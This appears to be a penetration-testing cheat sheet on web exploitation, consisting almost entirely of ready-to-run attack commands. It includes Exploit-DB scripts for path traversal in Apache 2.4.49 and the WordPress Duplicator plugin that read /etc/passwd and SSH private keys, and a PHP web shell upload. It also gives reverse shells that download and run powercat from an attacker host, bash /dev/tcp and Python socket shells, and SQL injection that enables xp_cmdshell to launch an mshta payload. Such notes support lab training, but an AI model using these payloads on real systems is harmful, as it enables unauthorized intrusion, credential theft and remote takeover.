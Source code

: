 # 02 - Web Exploitation

Index
- [Exploit DB](#Exploit-DB)
- [Example: Local File Inclusion](#Example-Local-File-Inclusion)
    - [ID 50383 CVE-2021-41773](#ID-50383-CVE-2021-41773)
    - [ID 50420 CVE-2020-11738](#ID-50420-CVE-2020-11738)
    - [ID 50616 File Upload](#ID-50616-File-Upload)
- [Example: reverse shell](#Example-reverse-shell)
    - [ID 48793 CVE-2020-14008](#ID-48793-CVE-2020-14008)
    - [Local File Inclusion](#Local-File-Inclusion)
    - [ID 49488 RCE and Reverse Shell](#ID-49488-RCE-and-Reverse-Shell)
    - [ID 49067 RCE and Reverse Shell](#ID-49067-RCE-and-Reverse-Shell)
- [Example: sqli](#Example-sqli)
    - [MSSQL Error, UNION SELECT, reverse shell](#MSSQL-Error-UNION-SELECT-reverse-shell)

## Exploit DB
Exploit search command example: searchsploit $software $version
``` bash
searchsploit apache 2.4.49
------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                 |  Path
------------------------------------------------------------------------------- ---------------------------------
...
Apache HTTP Server 2.4.49 - Path Traversal & Remote Code Execution (RCE)       | multiple/webapps/50383.sh
...
------------------------------------------------------------------------------- ---------------------------------
```

Copy exploit on disk:
``` bash
searchsploit -m multiple/webapps/50383.sh
```

## Example: Local File Inclusion
### ID 50383 CVE-2021-41773
``` bash
bash 50383.sh ./targets.txt /etc/passwd                 ## read file passwd, user enum
bash 50383.sh ./targets.txt /etc/ssh/*pub               ## search ecdsa key
bash 50383.sh ./targets.txt /home/$user/.ssh/id_ecdsa   ## read ecdsa key, possible ssh access
bash 50383.sh ./targets.txt /home/$user/.ssh/id_rsa     ## read rsa key, possible ssh access
```

### ID 50420 CVE-2020-11738
Wordpress Plugin Duplicator 1.3.26:
``` bash
python3 50420.py http://192.168.1.1 /etc/passwd             ## read file passwd, user enum
python3 50420.py http://192.168.1.1 /home/$user/.ssh/id_rsa ## read rsa key, possible ssh access
```

### ID 50616 File Upload
RiteCMS RCE:
- Need valid credentials (ex: admin/admin) to upload a php shell (shell.pHP)
- Need to change the .php extension in .pHP or similar.
``` php
<?php echo system($_GET['cmd']); ?>                         ## shell.pHP
```
Check the RCE:
``` bash
curl http://192.168.1.1:8000/cms/files/shell.pHP?cmd=whoami ## for windows
curl http://192.168.1.1:8000/cms/files/shell.pHP?cmd=id     ## for linux
```
Windows Reverse Shell (powercat.ps1 based):
``` bash
### exploit                                          ### command               ### reverse shell                                    ### KALI                        ### require nc listener: nc -nvlp 443
curl http://192.168.1.1:8000/cms/files/shell.pHP?cmd=powershell -nop -w hidden IEX(New-Object System.Net.WebClient).DownloadString('http://$KALI:8888/powercat.ps1');powercat -c $KALI -p 443 -e powershell
```

## Example: reverse shell
### ID 48793 CVE-2020-14008
ManageEngine reverse shell (auth):
``` bash
python3 48793.py https://192.168.1.1:8443 admin admin $KALI_IP $PORT    ## require nc listener: nc -nvlp 443
```

### Local File Inclusion
Initial access was gained via SSH; an internal web app was running as root.
Unsecure LFI in application script.

Create a reverse shell command file:
``` php
<?php system('bash -c "bash -i >& /dev/tcp/$KAI/443 0>&1"'); ?>         ## require nc listener: nc -nvlp 443
```
Get the vulnerable script from interna (or external if possible):
``` bash
curl http://127.0.0.1:8000/backend/?view=../../../../../../../../home/user/shell.php
```

### ID 49488 RCE and Reverse Shell
Umbraco 7.14 RCE p-o-c:
``` bash
python3 49488.py -u $user -p $password -i 'http://192.168.1.1' -c whoami
```
Exploit + Reverse Shell Payload (powercat based):
``` bash
### exploit                                                    ### command   ### reverse shell as argument                            ### KALI                    ### require nc listener: nc -nvlp 443
python3 49488.py -u $user -p $password -i 'http://192.168.1.1' -c powershell -a "IEX(New-Object System.Net.WebClient).DownloadString('http://$KALI/powercat.ps1');powercat -c $KALI -p 443 -e powershell"
```

### ID 49067 RCE and Reverse Shell
Aerostrike RCE:
``` bash
python 49067.py --ahost 192.168.1.1 -aport 3000 --cmd "id"
```
Python Reverse Shell example:
``` bash
## require nc listener: nc -nvlp 443
python 49067.py --ahost 192.168.1.1 --cmd "python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"$KALI\",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn(\"/bin/bash\")'"
```

## Example: sqli

### MSSQL Error, UNION SELECT, reverse shell
Check available fields:
``` text
admin' UNION SELECT 1,2,3,4,5--+
admin' UNION SELECT 1,2,3,4--+
admin' UNION SELECT 1,2,3--+
admin' UNION SELECT 1,2--+
```

Enable xp_cmdshell:
``` text
admin' UNION SELECT 1,2; EXEC sp_configure 'show advanced options', 1--+
admin' UNION SELECT 1,2; RECONFIGURE--+
admin' UNION SELECT 1,2; EXEC sp_configure 'xp_cmdshell', 1--+
admin' UNION SELECT 1,2; RECONFIGURE--+
```

HTA_listener:
``` bash
msf6 > use exploit/windows/misc/hta_server
msf6 exploit(windows/misc/hta_server) > set LHOST $KALI     ## set attacker IP
LHOST => $KALI
msf6 exploit(windows/misc/hta_server) > exploit
[*] Exploit running as background job 1.
[*] Exploit completed, but no session was created.
msf6 exploit(windows/misc/hta_server) > 
[*] Started reverse TCP handler on 192.168.45.226:4444 
[*] Using URL: http://$KALI:8888/Kl4Su1ud80QLi.hta          ## HTA url, reverse shell target
[*] Server started.
```

Exploiting:
``` text
admin' UNION SELECT 1,2; EXEC xp_cmdshell 'mshta.exe http://$KALI:8888/Kl4Su1ud80QLi.hta'--+
```
